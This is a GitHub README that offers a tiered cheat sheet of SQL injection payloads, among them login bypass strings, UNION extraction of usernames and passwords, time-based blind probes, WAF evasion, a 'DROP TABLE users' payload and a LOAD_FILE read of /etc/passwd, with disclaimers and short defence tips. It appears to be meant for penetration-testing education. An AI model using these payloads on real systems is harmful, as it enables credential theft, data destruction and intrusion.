 # SQL-Inject
Basic SQL injections


README.md

# 🔥 SQL Injection Testing Guide  

This repository contains a categorized list of **SQL Injection (SQLi) techniques** sorted by difficulty level. These techniques are intended for **educational purposes and penetration testing** only.  

## ⚠️ Disclaimer  
This repository is for **legal security research** and **ethical hacking** only. Do not use these techniques on **live systems without explicit permission**. The author is not responsible for any misuse of this information.  

---

## 📌 SQL Injection Categories  

### 🟢 **Easy (No Protection / Basic Security Flaws)**  

#### **1. Basic Authentication Bypass**  
Bypass login pages when the input is directly concatenated into SQL queries.  
```sql
' OR '1'='1' --  

admin' --  

	Works when backend queries look like:

2. UNION-Based SQL Injection

Extracts data when column count is known.

' UNION SELECT 1,2,3 --  

3. Error-Based SQL Injection

Forces database errors to reveal system details.

' AND 1=CONVERT(int,@@version) --  

🟡 Medium (Some Security in Place, But Bypasses Exist)

4. Blind SQL Injection (Boolean-Based)

Used when direct query output is not visible.

' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END) --  

5. Time-Based SQL Injection (Blind Extraction via Delays)

Detects SQLi via response time delays.

' OR IF(1=1, SLEEP(5), 0) --  

6. Bypassing Filters Using Encoding / Commenting

Encoded attacks to bypass basic protections.

admin' %23  

	%23 is URL encoding for # (used to comment out the rest of the SQL query).

7. Hex Encoding to Avoid Detection

Bypasses WAFs using hex representation.

0x61646d696e -- (Hex for 'admin')  

🔴 Hard (WAF, Parameterized Queries, Advanced Protections)

8. Second-Order SQL Injection

Malicious data is stored and later executed.

test'; DROP TABLE users; --  

9. Bypassing WAF with String Concatenation

Avoids detection by breaking up keywords.

' UNION SELECT 1,CONCAT(user,0x3a,password) FROM users --  

	0x3a is the hex for :

10. Advanced Time-Based Injection

Extracts database details via conditional delays.

' OR (SELECT CASE WHEN (LENGTH(database())=5) THEN SLEEP(5) ELSE 1 END) --  

11. Out-of-Band (OOB) Attacks

Exploits functions to access server files.

' OR LOAD_FILE('/etc/passwd') --  

🔍 Testing Tools
	•	SQLMap – Automated SQL injection tool.
	•	Burp Suite – Web security testing tool.
	•	Damn Vulnerable Web Application (DVWA) – Practice environment for testing SQLi.

🔒 How to Protect Against SQL Injection
	•	Use parameterized queries instead of string concatenation.
	•	Sanitize user inputs (whitelist, escaping, etc.).
	•	Implement Web Application Firewalls (WAFs) to detect and block attacks.

⚠️ Legal Warning

Testing these SQL injection techniques on unauthorized systems is illegal. Always get explicit permission before performing penetration tests.

🛠 Contributions

Feel free to submit pull requests with new techniques or improvements.

🚀 Stay ethical & happy hacking!

---

### **How to Use It**  
1. Copy the above text into a new `README.md` file in your GitHub repository.  
2. Push it to GitHub.  
3. (Optional) Add example vulnerable applications for testing (like DVWA).  
